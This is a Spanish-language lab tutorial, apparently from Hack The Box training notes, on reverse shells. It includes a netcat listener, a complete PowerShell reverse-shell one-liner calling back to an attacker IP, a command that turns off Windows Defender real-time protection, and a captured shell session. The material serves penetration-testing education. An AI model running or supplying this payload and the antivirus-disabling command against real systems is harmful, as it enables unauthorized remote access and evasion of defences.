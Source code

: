 # Reverse Shells

Con una reverse shell, la **caja de ataque** tendrá un "listener" (escucha) en ejecución, y el **objetivo** necesitará iniciar la conexión.

En muchos casos de sistemas vulnerables, es más probable que un administrador pase por alto conexiones salientes, lo que nos da una mejor oportunidad de no ser detectados. En contraste, las bind shells dependen de conexiones entrantes permitidas por el firewall del lado del servidor, lo cual es difícil de ejecutar en un entorno real.

Como se muestra en la imagen, al iniciar un "listener" para una concha inversa en nuestra caja de ataque, usamos algún método (como la carga de archivos no restringida o la inyección de comandos) para forzar que el objetivo inicie una conexión hacia nuestra caja, haciendo que la caja de ataque se convierta en el **servidor** y el objetivo en el **cliente**.

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No siempre necesitamos reinventar los payloads (comandos y código). Herramientas como el **Reverse Shell Cheat Sheet** contienen listas de comandos y generadores de shells inversas automatizadas que podemos usar en la práctica o en compromisos reales. Sin embargo, muchos administradores conocen estos recursos, por lo que podrían ajustar sus controles de seguridad para detectarlos. En algunos casos, necesitaremos personalizar nuestros ataques.

## Trabajando con una concha inversa en Windows

Vamos a establecer una concha inversa simple usando PowerShell en un objetivo Windows.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Usamos el puerto 443, común para conexiones HTTPS, ya que rara vez los equipos de seguridad bloquean este puerto. Sin embargo, firewalls avanzados con inspección de paquetes y visibilidad en la capa 7 pueden detectar conchas inversas en puertos comunes.

Una vez que el objetivo Windows esté activo, conectamos usando RDP.

> **Nota:** Netcat no es nativo en Windows, por lo que no podemos contar con él directamente. Idealmente, usamos las herramientas nativas del sistema.

Podemos usar un simple **one-liner** de PowerShell para crear una concha inversa.

### **En el objetivo Windows (cliente)**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

El antivirus de Windows Defender bloqueó el código, como es de esperar desde el punto de vista defensivo. Desde la perspectiva ofensiva, tenemos algunos obstáculos si el antivirus está habilitado.

### **Deshabilitar el antivirus**

Podemos deshabilitar el antivirus con la siguiente línea en una consola de PowerShell administrativa:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez deshabilitado, ejecutamos de nuevo el código.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Hemos establecido con éxito la concha inversa y podemos interactuar con el sistema. Intenta ejecutar algunos comandos estándar de Windows para practicar.
